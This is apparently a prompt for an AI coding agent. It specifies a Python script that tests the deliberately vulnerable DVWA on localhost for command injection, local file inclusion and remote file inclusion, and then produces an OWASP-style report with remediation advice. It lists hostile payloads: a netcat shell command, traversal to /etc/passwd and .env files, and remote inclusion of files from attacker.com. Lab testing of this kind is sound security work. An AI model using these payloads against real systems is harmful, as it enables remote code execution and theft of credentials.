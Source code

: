# AI Coding Agent Prompt: Code Injection, LFI & RFI Testing Script for DVWA (OTG-INPVAL-012, OTG-INPVAL-033, OTG-INPVAL-034)

## 📌 Overview
Create a comprehensive Python-based automated testing script that identifies and validates **Code Injection (OTG-INPVAL-012)**, **Local File Inclusion (LFI)**, and **Remote File Inclusion (RFI)** vulnerabilities on **Damn Vulnerable Web Application (DVWA)** running locally via **XAMPP on `localhost`**. Upon completion, the script must generate a **professional, well-designed HTML report** in the style of **OWASP** and **OSCP penetration testing reports**.

---

## 🎯 Target Environment
- **Application**: DVWA (Damn Vulnerable Web Application)
- **Deployment**: XAMPP on `localhost`
- **URL**: `http://localhost/dvwa/`
- **Test Modules**:
  - **Code Injection**: Command Execution (`/dvwa/vulnerabilities/exec/`)
  - **Local File Inclusion**: File Inclusion (`/dvwa/vulnerabilities/fi/`)
  - **Remote File Inclusion**: File Inclusion (`/dvwa/vulnerabilities/fi/`)
- **Authentication Required**: Yes (script must handle login and session)
- **Security Level**: Low (assumed for testing)
- **Prerequisites**: DVWA security level set to "Low" for maximum vulnerability exposure

---

## 🛠️ Script Requirements

### 1. **Core Functionality**

#### Code Injection (OTG-INPVAL-012)
- **Authentication Automation**:
  - Log in to DVWA using provided credentials (e.g., `admin:password`).
  - Handle CSRF tokens (`user_token`) and maintain session cookies.
- **Code Injection Testing**:
  - Target the Command Execution module (`/dvwa/vulnerabilities/exec/`)
  - Test with various code injection payloads:
    - **OS Command Injection**: `; whoami`, `&& whoami`, `| whoami`, `& whoami`
    - **Time-based Detection**: `; sleep 10`, `&& ping -c 10 127.0.0.1`
    - **Blind Injection**: `; ifconfig > /tmp/output.txt`, `&& dir > C:\\temp\\output.txt`
    - **File System Interaction**: `; ls /`, `&& dir C:\\`
    - **Reverse Shell Indicators**: `; nc -e /bin/sh`, `&& powershell -c`
  - Test for both Windows and Unix-based command separators
  - Use time-based detection for blind command injection
  - Verify results by checking for:
    - Command output in response
    - Response timing anomalies
    - File creation/modification

#### Local File Inclusion (LFI) - OTG-INPVAL-033
- **LFI Testing**:
  - Target the File Inclusion module (`/dvwa/vulnerabilities/fi/`)
  - Test with various LFI payloads:
    - **Basic Path Traversal**: `../../../../etc/passwd`, `..\..\..\..\windows\system32\drivers\etc\hosts`
    - **Multiple Encodings**: URL-encoded, double URL-encoded, UTF-8 encoding
    - **Null Byte Injection**: `../../../../etc/passwd%00`, `..\..\..\..\windows\system32\drivers\etc\hosts%00`
    - **Log Poisoning**: `/var/log/apache2/access.log`, `/var/log/auth.log`
    - **Proc Filesystem**: `/proc/self/environ`, `/proc/version`, `/proc/net/tcp`
    - **Windows Files**: `boot.ini`, `win.ini`, `system.ini`, `hosts`
    - **Configuration Files**: `config.php`, `database.yml`, `.env`
  - Test for file inclusion via:
    - Direct path specification
    - Relative path traversal
    - Absolute path specification
  - Verify results by checking for:
    - File content in response
    - Expected file structure/patterns
    - Sensitive information disclosure

#### Remote File Inclusion (RFI) - OTG-INPVAL-034
- **RFI Testing**:
  - Target the File Inclusion module (`/dvwa/vulnerabilities/fi/`)
  - Test with various RFI payloads:
    - **HTTP Inclusion**: `http://attacker.com/malicious.txt`, `http://127.0.0.1/test.txt`
    - **HTTPS Inclusion**: `https://attacker.com/payload.php`
    - **FTP Inclusion**: `ftp://attacker.com/shell.txt`
    - **Data URI**: `data://text/plain,<?php phpinfo(); ?>`
    - **PHP Wrappers**: `php://input`, `php://filter`
  - Test for RFI via:
    - Direct URL specification
    - Parameter manipulation
  - Verify results by checking for:
    - Remote content inclusion
    - PHP code execution
    - Server-side processing of remote files

### 2. **Reporting**
- Generate a **single, self-contained HTML report** (`code_injection_lfi_rfi_report.html`) with:
  - **Title**: "Code Injection, LFI & RFI Assessment – DVWA (OTG-INPVAL-012, 033, 034)"
  - **Executive Summary**: Brief overview of findings and risk.
  - **Test Details**:
    - Target URL
    - Vulnerability Types: Code Injection, LFI, RFI
    - OWASP Test IDs: OTG-INPVAL-012, OTG-INPVAL-033, OTG-INPVAL-034
    - Risk Level: High (Code Injection), High (RFI), Medium (LFI)
    - Date & Time of Test
  - **Methodology**:
    - Steps taken (login → module identification → payload testing → analysis)
    - Tools used (script name, Python modules)
  - **Findings**:
    - Separate sections for each vulnerability type
    - Table of tested payloads and results
    - For each vulnerable endpoint:
      - Vulnerability type
      - Payload used
      - Response evidence
      - Impact (e.g., RCE, file read, remote code execution)
      - Proof of Concept (PoC)
  - **Remediation Recommendations**:
    - Input validation and sanitization
    - Principle of least privilege
    - Web server configuration
    - Secure coding practices
  - **References**:
    - OWASP Testing Guide: OTG-INPVAL-012, 033, 034
    - CWE-94: Code Injection
    - CWE-22: Path Traversal
    - CWE-98: RFI

### 3. **HTML Report Design**
- **Style**: Clean, professional, OSCP/OWASP-like
- **Colors**: Dark blue, white, gray (security-themed)
- **Fonts**: Monospace for code, sans-serif for body
- **Structure**:
  - Header with logo (optional placeholder)
  - Navigation sidebar or sections
  - Collapsible technical details
  - Responsive layout
- Include embedded CSS (no external files)
- Ensure **all HTML output is properly escaped** to prevent rendering issues
- Use tabs or sections to separate Code Injection, LFI, and RFI findings

### 4. **Technical Specifications**
- **Language**: Python 3.7+
- **Libraries**:
  - `requests` – for HTTP handling
  - `BeautifulSoup4` – for parsing HTML
  - `argparse` – for CLI arguments
  - `datetime`, `os`, `json`, `time` – for logging and data
- **Command-Line Arguments**:
  - `--url`: Target URL (default: `http://localhost/dvwa`)
  - `--username`: DVWA username (default: `admin`)
  - `--password`: DVWA password (default: `password`)
  - `--output`: Output report path (default: `reports/code_injection_report.html`)
  - `--timeout`: Request timeout (default: 15 seconds)
  - `--delay`: Delay between requests (default: 1 second)
- **Logging**:
  - Print progress to console
  - Save raw responses for debugging (optional)

---

## 🧾 Expected Output
- A Python script: `dvwa_code_injection_lfi_rfi.py`
- Generated HTML report: `code_injection_lfi_rfi_report.html` (or as specified)
- Report includes:
  - ✅ Vulnerability confirmed
  - ✅ Payloads tested
  - ✅ Risk assessment
  - ✅ Remediation advice
  - ✅ Professional presentation

---

## 📝 Example Usage
```bash
python dvwa_code_injection_lfi_rfi.py \
  --url http://localhost/dvwa \
  --username admin \
  --password password \
  --output reports/code_injection_$(date +%F).html